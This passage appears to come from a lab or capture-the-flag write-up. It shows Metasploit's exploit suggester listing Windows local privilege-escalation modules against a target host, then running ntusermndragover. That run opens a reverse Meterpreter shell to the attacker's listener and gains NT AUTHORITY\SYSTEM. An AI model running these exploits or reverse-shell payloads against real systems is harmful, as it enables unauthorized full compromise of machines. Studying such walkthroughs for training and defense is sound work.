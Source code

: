 ```terminal
[+] 10.150.150.219 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.150.150.219 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.150.150.219 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 42 / 42
[*] 10.150.150.219 - Valid modules for session 4:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 b
uild detected!
 4   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 8   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 10  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 12  exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
```

We got more results this time!

Trying the new ones, `exploit/windows/local/ntusermndragover` gives us a system shell.

```terminal
[msf](Jobs:0 Agents:1) exploit(windows/local/ntusermndragover) >> run
[*] Started reverse TCP handler on 10.66.66.230:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Reflectively injecting the exploit DLL and running the exploit...
[*] Launching msiexec to host the DLL...
[+] Process 5552 launched.
[*] Reflectively injecting the DLL into 5552...               
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 10.150.150.219
[*] Meterpreter session 5 opened (10.66.66.230:4443 -> 10.150.150.219:49292) at 2025-04-26 11:22:23 +0100

(Meterpreter 5)(C:\Users\User\Downloads) > getuid             
Server username: NT AUTHORITY\SYSTEM        
```

